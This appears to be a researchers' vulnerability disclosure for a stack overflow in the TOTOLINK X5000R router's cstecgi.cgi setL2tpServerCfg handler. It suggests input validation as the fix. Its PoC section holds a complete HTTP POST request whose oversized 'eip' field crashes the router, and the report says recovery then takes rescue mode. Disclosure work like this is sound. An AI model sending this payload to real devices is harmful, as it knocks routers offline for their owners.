



# TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:X5000R

Version:X5000R_Firmware(V9.1.0u.6118_B20201102)

Type:Stack Overflow

Author:Jiaqian Peng,Huizhao Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn


## Vulnerability description

We found an stack overflow vulnerability in TOTOLINK Technology router with firmware which was released recentl, allows remote attackers to crash the server.

**Stack Overflow**

In `cstecgi.cgi` binary:

In `setL2tpServerCfg` function, `eip、sip、server` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow,so we can control the `eip、sip、server` to crash the server.

As you can see here, the input has not been checked.And then,call the function nvram_set to store this input.

<div  align="center"></div>

In `rc` binary:

Eventually, the initial input will be extracted and cause the stack overflow.

<div  align="center"></div>

**Supplement**

This vulnerability not only crashed my router, but also cannot be repaired, it can only be restored through rescue mode.

In order to avoid such problems, we believe that the string content should be checked in the input extraction part. For example, make sure it is a valid ip address.


## PoC

We set `eip` as **aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa....** , and the router will crash, such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 339
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/advance/l2tp.html?time=1639908493613
Cookie: SESSION_ID=2:1420070622:2

{"enable":"1","sip":"10.8.0.2","eip":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","server":"10.8.0.4","priDns":"8.8.8.8","secDns":"","mtu":1450,"mru":1450,"ipsecL2tpEnable":"0","ipsecPsk":"","topicurl":"setL2tpServerCfg"}
```

<div  align="center"></div>


## Result

The target router crashes and cannot provide services correctly and persistently.

